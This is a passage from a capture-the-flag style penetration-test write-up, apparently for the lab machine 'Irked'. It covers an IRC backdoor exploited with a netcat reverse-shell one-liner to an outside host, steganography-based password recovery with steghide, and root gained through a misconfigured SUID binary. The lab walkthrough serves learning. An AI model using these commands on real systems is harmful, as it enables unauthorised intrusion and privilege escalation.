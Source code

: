 2. I started a netcat listener on Kali and used this backdoor to trigger a reverse shell as user ircd:

   ```bash
   echo "AB;nc -e /bin/sh 10.10.14.37 8001" | nc 10.10.10.117 6697
   ```

   ![image-20201108124906640](.Report.assets/image-20201108124906640.png)

3. I checked the ircd user's .bash_history file and it showed the user had access the file /home/djmardov/Documents/.backup.  I examined this file and found a reference to steganography along with a passphrase.  Given there was only one image found on this target (irked.jpg on the webpage hosted on the server), I attempted to use this passphrase to decode the image on a steganography site and uncovered what appeared to be a password:  `Kab6h+m+bbp2J:HG`
   ![image-20201108131451347](.Report.assets/image-20201108131451347.png)

   ```bash
   steghide --extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
   ```

4. Enumerating /etc/passwd showed another user on the system, `djmardov`, the same user whose home folder I found the passphrase in.  I was able to login as this user using the password found inside the irked.jpg image.

   ![image-20201108134838988](.Report.assets/image-20201108134838988.png)

5. After getting access to the djmardov user, I realized it was completely pointless once I found a binary in /usr/bin/viewuser that had SUID privileges.  This binary tries to execute the binary /tmp/listusers, which is currently missing.  All I needed to do was copy /bin/bash to /tmp/listusers, then run /usr/bin/viewuser to get a root prompt.  I was able to do this as the ircd user as well as djmardov.